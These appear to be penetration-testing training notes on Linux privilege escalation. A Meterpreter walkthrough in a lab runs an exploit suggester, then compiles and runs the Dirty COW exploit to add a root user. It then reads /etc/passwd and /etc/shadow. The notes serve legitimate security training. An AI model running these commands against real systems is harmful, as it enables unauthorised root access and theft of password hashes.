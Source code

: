 Privilege Escalation
- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out as a good penetration tester.

The Linux Kernel
- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Linux is itself the actual kernel that comes pre-packaged with all its distributions. It consists of two main modes of operation that determine access to system resources and hardware.
	- User Mode: Programs and services running in user mode have limited access to system resources and functionality.
	- Kernel Mode: Kernel mode has unrestricted access to system resources and functionality with added functionality of managing devices and system memory.

Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and kernel exploit being used.
- Linux Kernel exploitation is not a recommended privilege escalation vector, since it can lead to system crashes or loss of data. It is not recommended to use Kernel exploits in an enterprise network.
- Privilege escalation on Linux systems will typically follow the following methodology:
	- Identifying kernel vulnerabilities.
	- Downloading, compiling and transferring kernel exploits onto the target system.

Tools & Environment
- Linux-Exploit-Suggester: This tool is designed to assist in detecting security deficiencies for the given Linux kernel/Linux-based machine. It assesses (using heuristic methods) the exposure of the given kernel on every publicly known Linux kernel exploit.
	- GitHub: https://github.com/mzet-/linux-exploit-suggester

Note: The techniques demonstrated in this video are performed on an Ubuntu 12.04 VM.

Practical Demonstration
- Since the demonstration is for Privilege escalation, we are in an assumed breach scenario with non-elevated privileges, and already have a Meterpreter session on the target system, with the user www-data, who does not have elevated privileges, since its a service account made as a safeguard in case somebody is able to exploit a web server and gain a foothold.
- Meterpreter Session
	- `sysinfo`
	- `getuid`
	- `shell`
		- `/bin/bash -i`
		- `groups www-data`
		- `cat /etc/passwd`
	- `cd /tmp`
	- `ls`
	- `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`
	- `upload ./les.sh`
	- `shell`
		- `/bin/bash -i`
		- `ls`
		- `chmod +x les.sh`
		- `ls -alps`
		- `./les.sh`
			- The output of the script includes system information like the Kernel version, Architecture, Distribution and Distribution version.
			- The output of this tool has the resulting exploits sorted in a descending order of exploit success rate, so the exploits at the top will be the most likely to work successfully.
			- For any exploits we want to consider, we should be able to check the vulnerability details, the likelihood (or exposure) of our system being vulnerable, exploit download URL, comments and the tags which specify what distribution kernel version and release version the particular vulnerability can be exploited on, from the information provided in the results.
- Downloading the relevant exploit code for dirtycow2 from exploitdb, https://www.exploit-db.com/exploits/40839.
	- Compiling the exploit code.
		- `cd ~/Downloads`
		- `mv 40839.c dirty.c`
		- `gcc -pthread dirty.c -o dirty -lcrypt` 
- Back to Meterpreter session:
	- `upload ~/Downloads/dirty`
	- `shell`
		- `/bin/bash -i`
			- `chmod +x dirty`
			- `./dirty password123`
			- We faced some errors at this point, which were due to the exploit code not being compiled on the target system, so we will now remove the binary we have, upload the exploit code, and compile it on the target system.
			- `rm dirty`
	- `upload ~/Downloads/dirty.c`
	- `shell`
		- `/bin/bash -i`
			- `ls`
			- `gcc -pthread dirty.c -o dirty -lcrypt`
			- `chmod +x dirty`
			- `./dirty password123`
			- `cat /etc/passwd`
- `ssh firefart@demo.ine.local`
	- `whoami`
	- `cat /etc/shadow`